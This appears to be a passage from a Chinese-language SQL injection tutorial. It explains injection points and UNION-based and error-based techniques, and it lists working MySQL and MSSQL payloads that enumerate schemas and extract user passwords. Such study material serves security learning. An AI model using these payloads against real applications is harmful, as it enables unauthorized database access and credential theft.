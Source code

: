 1.  **GET请求:**
    *   参数附加在URL后面（Query String），对用户可见，易于测试和修改。受URL编码影响。
    *   示例: `example.com/search?query=test'+OR+1=1--+`
2.  **POST请求:**
    *   参数包含在HTTP请求的主体 (Request Body) 中，用户在浏览器地址栏不可见。不易受URL编码的直接影响（但提交时仍可能被浏览器或框架编码）。
    *   通常需要使用开发者工具或代理工具（如Burp Suite, OWASP ZAP）来拦截和修改请求。
3.  **请求头 (HTTP Headers):**
    *   某些应用程序会将HTTP请求头（如 `Cookie`, `User-Agent`, `Referer`, `X-Forwarded-For` 等）的值用于数据库查询。如果未做处理，这些头字段也可能成为注入点。
    *   示例 (Cookie): `Cookie: session_id=abcde; user_preference=' UNION SELECT password FROM users WHERE id=1 --`
    *   示例 (User-Agent): `User-Agent: Mozilla/5.0' OR 1=1 --`

#### 按攻击技术/效果分类

1.  **联合查询注入 (UNION Attack):**
    *   **概述:** 利用 `UNION` 操作符将两个或多个 `SELECT` 语句的结果集合并为一个结果集。攻击者构造一个与原始查询列数相同的恶意 `SELECT` 语句，从而在应用程序的正常输出中获取额外数据。
    *   **前提:** 原始查询的结果会显示在页面上；攻击者需要知道原始查询的列数（常用 `ORDER BY` 探测）；两个查询的对应列数据类型需要兼容（或使用 `NULL` 占位）。
    *   **关键库/表 (MySQL):**
        *   `information_schema`: 存储数据库元数据（库名、表名、列名等）的系统数据库。
        *   `information_schema.schemata`: 存储所有数据库名称 (`schema_name`)。
        *   `information_schema.tables`: 存储所有表名 (`table_name`) 及其所属数据库 (`table_schema`)。
        *   `information_schema.columns`: 存储所有列名 (`column_name`) 及其所属表 (`table_name`)、库 (`table_schema`)。
        *   `mysql.user`: (旧版本或特定配置) 可能存储数据库用户信息 (`user`, `password` / `authentication_string`)。
    *   **步骤:**
        1.  猜解列数: `id=1' ORDER BY 1 --+`, `id=1' ORDER BY 2 --+`, ... 直到报错。
        2.  确定显示位: `id=1' UNION SELECT 1,2,3 --+` (假设有3列)，观察页面哪个位置显示了1, 2, 或 3。
        3.  获取数据: `id=1' UNION SELECT null, version(), database() --+` (在第二、三列显示版本和库名)。

2.  **报错注入 (Error-based):**
    *   **概述:** 故意构造错误的SQL语句，利用数据库管理系统在处理错误时返回的详细错误信息来提取数据。适用于页面不直接显示查询结果，但会显示数据库错误的情况。
    *   **常用函数 (MySQL):**
        *   `updatexml(XML_document, XPath_string, new_value)`: 通过提供非法的XPath表达式（第二个参数，通常包含要查询的数据）来引发错误。
        *   `extractvalue(XML_frag, XPath_expr)`: 类似 `updatexml`，利用非法XPath报错。
        *   `floor()`: 结合 `rand()`, `count(*)`, `group by` 构造主键/唯一键重复的错误，错误信息中会包含部分查询结果。
    *   **常用辅助函数:** `concat()`, `concat_ws()`, `group_concat()`, `database()`, `version()`, `user()`, `@@datadir`, `limit` 等。
    *   **Payload 示例 (updatexml/extractvalue):**
        ```sql
        -- 爆版本 (假设注入点在 k='...' 处)
        k' or updatexml(1,concat(0x7e,(select @@version),0x7e),1) #
        k' or extractvalue(1,concat(0x7e,(select @@version),0x7e)) #
        -- 爆当前库名
        k' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #
        -- 爆指定库 'db_name' 的第一个表名
        k' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='db_name' limit 0,1)),0) #
        -- 爆指定表 'table_name' 的第一个列名
        k' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='table_name' limit 0,1)),0) #
        -- 爆指定表 'users' 的第一个用户密码
        k' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) #
        ```
        *(注: `0x7e` 是 `~` 的十六进制，用于标记结果。`#` 或 `--+` 是注释符)*
    *   **Payload 示例 (floor):**
        ```sql
        select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));
        ```
    *   **Payload 示例 (MSSQL `convert`):**
        ```sql
        select * from users where id=1 and 1=convert(int, (select @@version))
        ```